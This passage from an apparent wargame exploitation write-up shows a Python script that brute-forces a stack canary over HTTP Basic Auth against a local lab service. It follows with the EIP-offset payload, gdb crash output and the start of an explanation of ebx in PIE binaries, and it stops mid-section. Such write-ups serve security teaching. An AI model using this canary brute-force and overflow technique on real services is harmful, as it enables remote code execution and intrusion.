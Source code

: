 We find that the canary offset is 2704:

```lang-python line-numbers 
print("[+] Bruteforcing Canary ...")
canary = ""
for byte in xrange(4):
        for canary_byte in xrange(256):
                hex_byte = chr(canary_byte)
                #print("[+] Trying: {0}{1}".format(canary.encode("hex"), hex_byte.encode("hex")))
                credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset + canary + hex_byte))
                s = socket(AF_INET, SOCK_STREAM)
                s.connect(("localhost", 20004))
                request = "GET / HTTP/1.0\r\n"
                request += "Authorization: Basic {0}\r\n".format(credentials)
                request += "\n"
                s.send(request)
                response = s.recv(1024)
                s.close()
                if "smashing" not in response:
                        canary += hex_byte
                        print("[+] Found canary byte: " + hex(canary_byte))
                        break
print("[+] Canary found: " + canary.encode("hex"))
```

Now that we know the SSP canary, we need to know the EIP offset that turns out to be 28 from the canary:

```lang-bash line-numbers 
passwd + "A"*canary_offset + canary + "B"*28 + "DDDD"
```

In gdb:

```lang-bash line-numbers 
(gdb) c
Continuing.
[New process 21459]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 21459]
0x44444444 in ?? ()
```

Also in [PIE]() binaries, the compiler compile the binary as a Position Independent Code (PIC) meaning that it can be run in any memory position. In order to do that, the code needs to remember the offset where the binary has been loaded. Compiler will use **ebx** for this. It will contain the binary load base plus an unknow offset: ebx = load base + offset

The compiler will pop ebx in the function epilogue to pass it to following calls. So if we overwrite the stack dword where **ebx** is popped from, we will confuse the binary and the result will be unpredictable since it wont be able to find the binary load base.

Function epilogue in PIE binaries:
